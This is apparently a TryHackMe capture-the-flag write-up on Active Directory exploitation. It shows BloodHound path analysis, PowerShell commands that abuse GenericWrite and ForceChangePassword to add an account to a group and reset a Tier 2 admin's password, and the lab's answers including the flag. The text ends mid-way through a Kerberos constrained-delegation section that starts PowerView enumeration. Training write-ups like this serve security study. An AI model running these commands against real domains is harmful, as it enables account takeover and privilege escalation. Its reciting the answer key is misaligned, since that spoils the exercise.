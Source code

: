 * As this is a tiered domain, we need to first compromise "Tier 2 Admins"; in ```BloodHound```, we can check for privesc from "Domain Users" group to "Tier 2 Admins" group using the ```pathfinding``` feature.

* This shows that "Domain Users" can ```GenericWrite``` to "IT Support", which can ```ForceChangePassword``` to "Tier 2 Admins" group members; this can be abused, and we can check the 'Abuse Info' section in ```BloodHound``` for ```Powersploit``` related commands:

```ps
#in powershell session

Add-ADGroupMember "IT Support" -Members "ruth.dale"
#add our AD account to IT Support group
#using Add-ADGroupMember cmdlet from AD-RSAT toolset

Get-ADGroupMember -Identity "IT Support"
#verify

Get-ADGroupMember -Identity "Tier 2 Admins"
#check members of Tier 2 Admins group
#select username of random account

$Password = ConvertTo-SecureString "Password123" -AsPlainText -Force

Set-ADAccountPassword -Identity "t2_ross.bird" -Reset -NewPassword $Password

#now we can login as this tier 2 admin
#and get flag from Administrator's Desktop
ssh za.tryhackme.loc\\t2_ross.bird@thmwrk1.za.tryhackme.loc
```

```markdown
1. Which ACE would allow you to update any non-protected parameter of a target object? - GenericWrite

2. What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)? - THM{Permission.Delegation.FTW!}
```

## Exploiting Kerberos Delegation

* ```Kerberos Delegation``` is used to enable apps to access resources hosted on a different server.

* Types of ```Kerberos Delegation```:

  * Unconstrained - originally implemented; least secure method; provides no limits to AD delegation.

  * Constrained - restricts what services an account can be delegated to.

  * Resource-based constrained - provides additional restrictions on ```Kerberos Delegation``` for security; the service specifies which objects can delegate to it.

* Constrained Delegation exploitation:

```ps
#in privileged ssh session
whoami /groups
#part of Tier 2 Admins

powershell -ep bypass
#launch powershell session

Import-Module C:\Tools\PowerView.ps1

#enumerate available delegations
Get-NetUser -TrustedToAuth

```